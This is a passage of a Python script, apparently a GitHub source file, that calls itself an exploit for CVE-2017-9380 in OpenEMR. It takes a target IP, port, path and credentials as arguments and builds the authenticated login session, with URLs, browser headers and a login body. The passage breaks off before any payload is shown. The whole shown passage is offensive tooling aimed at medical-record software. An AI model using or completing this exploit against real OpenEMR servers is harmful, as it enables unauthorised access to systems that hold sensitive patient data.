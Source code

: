     '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='Exploit for CVE-2017-9380')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--PATH', type=str)
    my_parser.add_argument('-u', '--USERNAME', type=str)
    my_parser.add_argument('-p', '--PASSWORD', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    openemr_path = args.PATH
    username = args.USERNAME
    password = args.PASSWORD


    '''
    Exploit:
    '''
    # Authentication preparation:
    session = requests.Session()
    auth_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/main/main_screen.php?auth=login&site=default'
    auth_chek_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/login/login.php?site=default'
    response = session.get(auth_chek_url)

    # Header (auth):
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Referer': auth_chek_url,
        'Upgrade-Insecure-Requests': '1',
    }

    # Body (auth):
    body = {
        'new_login_session_management': '1',
        'authProvider': 'Default',
        'authUser': username,
        'clearPass': password,
        'languageChoice': '1'
    }
